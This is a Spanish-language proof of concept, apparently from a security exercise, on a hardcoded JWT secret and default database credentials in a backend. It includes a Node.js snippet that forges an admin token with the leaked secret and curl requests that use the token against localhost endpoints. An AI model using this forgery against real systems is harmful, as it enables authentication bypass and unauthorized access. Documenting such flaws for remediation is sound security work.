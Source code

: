# Prueba de Concepto - Credenciales Embebidas

## Vulnerabilidad encontrada
El secreto JWT está hardcodeado en el código fuente.

**Archivo vulnerable:** `services/backend/src/utils/jwt.ts:6`
```typescript
return jwt.sign(
  { id: userId }, 
  "secreto_super_seguro",  // <- Credencial hardcodeada
  { expiresIn: '1h' }
);
```

## Cómo explotar

### Paso 1: Leer el código fuente
El secreto JWT está visible en el código: `"secreto_super_seguro"`

### Paso 2: Generar tokens falsos
Con el secreto obtenido, un atacante puede generar tokens JWT válidos:

```javascript
const jwt = require('jsonwebtoken');

// Generar token falso con privilegios de admin
const fakeToken = jwt.sign(
  { id: '999', admin: true, role: 'admin' },
  "secreto_super_seguro",
  { expiresIn: '1h' }
);

console.log('Token falso:', fakeToken);
```

### Paso 3: Usar el token falso para acceder al sistema
```bash
curl -X GET "http://localhost:5000/invoices" \
  -H "Authorization: Bearer TOKEN_FALSO_AQUI"
```

### Paso 4: Verificar que el token es válido
```bash
curl -X GET "http://localhost:5000/auth/" \
  -H "Authorization: Bearer TOKEN_FALSO_AQUI"
```

## Otras credenciales encontradas
En `services/backend/src/knexfile.ts` hay credenciales por defecto inseguras:
- Usuario: `user` (si no se define DB_USER)
- Contraseña: `password` (si no se define DB_PASS)
- Base de datos: `jwt_api` (si no se define DB_NAME)

## Impacto
- Bypass completo de autenticación
- Acceso no autorizado a cualquier cuenta
- Escalación de privilegios
- Acceso a la base de datos con credenciales por defecto
